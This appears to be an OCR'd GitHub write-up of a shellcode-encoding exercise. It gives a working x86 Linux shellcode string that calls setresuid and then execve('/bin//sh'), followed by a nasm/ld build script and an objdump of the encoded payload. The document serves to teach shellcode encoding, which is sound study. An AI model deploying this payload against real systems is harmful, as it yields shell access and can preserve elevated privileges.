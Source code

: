 ```c
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

## Compilation ##

We paste the encoded shellcode inside the decode.asm file. 
We compile our script :

```c
nasm -f elf32 -o $1.o $1.asm

echo "[+] compilation nasm"

ld -m elf_i386 -o $1 $1.o

echo "[+] Edition de liens"

echo "[+] Shellcode ..."
```

but we can't use the command from commandlinefu because some opcode will be missing. 
There is more than 6 rows.

The ligne starting at 80480a9 will contains b5 if we modify commandlinefu because it is at rows 7.

```c
080480a4 <shell>:
 80480a4:	02 fa                	add    %dl,%bh
 80480a6:	cb                   	lret   
 80480a7:	09 1f                	or     %ebx,(%edi)
 80480a9:	ea 03 45 ce 05 2e b5 	ljmp   $0xb52e,$0x5ce4503
 80480b0:	04 6d                	add    $0x6d,%al
 80480b2:	d1 07                	roll   (%edi)
 80480b4:	7e fe                	jle    80480b4 <shell+0x10>
 80480b6:	04 b4                	add    $0xb4,%al
 80480b8:	55                   	push   %ebp
 80480b9:	03 4a 32             	add    0x32(%edx),%ecx
 80480bc:	03 5f 76             	add    0x76(%edi),%ebx
 80480bf:	01 01                	add    %eax,(%ecx)
 80480c1:	69 0a 57 6c 06 0d    	imul   $0xd066c57,(%edx),%ecx
 80480c7:	74 06                	je     80480cf <shell+0x2b>
 80480c9:	70 e9                	jo     80480b4 <shell+0x10>
 80480cb:	0a e2                	or     %dl,%ah
 80480cd:	93                   	xchg   %eax,%ebx
 80480ce:	0a bb 5d 01 69 e2    	or     -0x1d96fea3(%ebx),%bh
 80480d4:	09 c4                	or     %eax,%esp
 80480d6:	14 02                	adc    $0x2,%al
 80480d8:	4f                   	dec    %edi
 80480d9:	82                   	.byte 0x82
 ```


